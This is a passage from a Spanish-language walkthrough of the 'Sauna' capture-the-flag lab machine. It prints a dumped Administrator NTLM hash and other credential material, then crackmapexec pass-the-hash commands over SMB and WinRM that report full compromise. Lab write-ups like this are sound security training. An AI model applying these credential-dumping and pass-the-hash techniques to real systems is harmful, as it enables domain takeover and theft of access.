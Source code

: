 ```batch
Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/26/2021 9:16:16 AM
Object Security ID   : S-1-5-21-2966785786-3096785034-1186376766-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 823452073d75b9d1cf70ebdf86c7f98e
    ntlm- 0: 823452073d75b9d1cf70ebdf86c7f98e
    ntlm- 1: d9485863c1e9e05851aa40cbb4ab9dff
    ntlm- 2: 7facdc498ed1680c4fd1448319a8c04f
    lm  - 0: 365ca60e4aba3e9a71d78a3912caf35c
    lm  - 1: 7af65ae5e7103761ae828523c7713031

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 716dbadeed0e537580d5f8fb28780d44

* Primary:Kerberos-Newer-Keys *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
...
...
...
```
Listo, tenemos el **hash NTLM** del administrador.

<br>

<h3 id="Hash2">Comprobando Hash y Ganando Acceso como Administrador Aplicando Pass-The-Hash</h3>

Probemos el **hash** de la contraseña para ver si funciona:
```bash
crackmapexec smb 10.10.10.175 -u 'administrator' -H '823452073d75b9d1cf70ebdf86c7f98e'
SMB         10.10.10.175    445    SAUNA            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\administrator:823452073d75b9d1cf70ebdf86c7f98e (Pwn3d!)
```

Funciona, comprobemos con **WinRM**:
```bash
crackmapexec winrm 10.10.10.175 -u 'administrator' -H '823452073d75b9d1cf70ebdf86c7f98e'
SMB         10.10.10.175    5985   SAUNA            [*] Windows 10 / Server 2019 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL)
HTTP        10.10.10.175    5985   SAUNA            [*] http://10.10.10.175:5985/wsman
WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\administrator:823452073d75b9d1cf70ebdf86c7f98e (Pwn3d!)
```
